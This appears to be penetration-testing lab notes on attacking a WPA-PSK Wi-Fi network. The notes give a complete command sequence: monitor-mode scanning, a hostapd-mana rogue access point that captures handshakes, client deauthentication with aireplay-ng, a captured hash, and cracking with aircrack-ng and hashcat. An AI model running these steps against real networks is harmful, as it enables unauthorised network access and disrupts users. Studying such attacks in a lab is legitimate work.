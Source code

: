 ### Setup 

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Identify the network

Identify the network by launching an airodump scan:
```bash
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon --wps
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```
>[!info]
>(not associated BSSID) is interesting
>Check used encryption & cipher for impersonation


### Creating a Rogue AP

Since a BSSID or Channel can't seem to be found on this ESSID a Rogue Access Point attack can be performed:
```bash
sudo apt install hostapd-mana
```

Create the configuration file, make sure the ESSID is set to wifi-offices:
```bash
interface=wlan1
ssid=<ESSID>
# Pick the channel of the actual AP
channel=1
# for 5 GHz: hw_mode=a
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
# Passphrase can be anything
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/tmp/output.hccapx
```

The AP can now be launched:
```bash
sudo hostapd-mana mana.conf
```


### Deauthenticate client

Deauthenticate client:
```bash
iwconfig wlan0mon channel <channel>
sudo aireplay-ng -0 0 -a <BSSID> -c <MAC> wlan0mon
sudo aireplay-ng -0 0 -a <BSSID> wlan0mon
```
>[!info]
>Sometimes only deauthenticating once is better: `-0 1`

Save the hash to a file:
```bash
cat hash
WPA*02*37a5ec3e8ddb4369ea55f3672b62166a*020000000100*b499ba6ff945*776966692d6f666669636573*9751e8d42da63bd0df653964ce36e85100172dea6de0a87c4cc2f49676844cdc*0103007502010a00000000000000000003b8734469d300ce33c2d482e65298ed093c83448dfa970fa43e62fd4237b23362000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac020100000fac040100000fac020000*00
```


### Crack the hash

Crack the hash using aircrack-ng
```bash
aircrack-ng output.hccapx -w /usr/share/john/password.lst
```

Crack the hash using hashcat:
```bash
hashcat -m 22000 hash /usr/share/john/password.lst --force
hashcat -m 22000 hash rockyou.txt --force
```

